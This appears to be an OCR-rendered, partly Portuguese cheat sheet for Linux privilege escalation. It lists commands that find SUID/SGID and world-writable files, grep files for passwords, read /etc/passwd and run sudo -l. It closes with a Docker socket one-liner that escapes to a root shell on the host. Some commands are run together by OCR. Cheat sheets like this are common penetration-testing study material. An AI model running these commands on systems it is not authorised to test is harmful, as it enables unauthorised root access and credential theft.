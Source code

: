 # Escalação de Privilégios

find

* Locate SUID/SGID files:

-perm +6000 -type f-perm +6000 -user root -type f(2000 = SGID, 4000 = SUID, 6000 = SUID+SGID)

* Search by name:

-name \*.log

* Run commands on each item:

-exec grep 'password' {} \\;\
What's the OS? What version? What architecture?

* cat /etc/\*-release
* uname -i
* lsb\_release -a (Debian based OSs)

\
Who are we? Where are we?

* id
* pwd

\
Who uses the box? What users? (And which ones have a valid shell)

* cat /etc/passwd
* grep -vE "nologin|false" /etc/passwd

What's currently running on the box? What active network services are there?

* ps aux
* netstat -antup

\
What's installed? What kernel is being used?

* dpkg -l (Debian based OSs)
* rpm -qa (CentOS / openSUSE )
* uname -a

\
\# procurar por arquivos com permissão totalfind / -type f -perm 0777 2>/dev/null\
$ sudo -l # list binaries with sudo privies\
Dockerdocker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
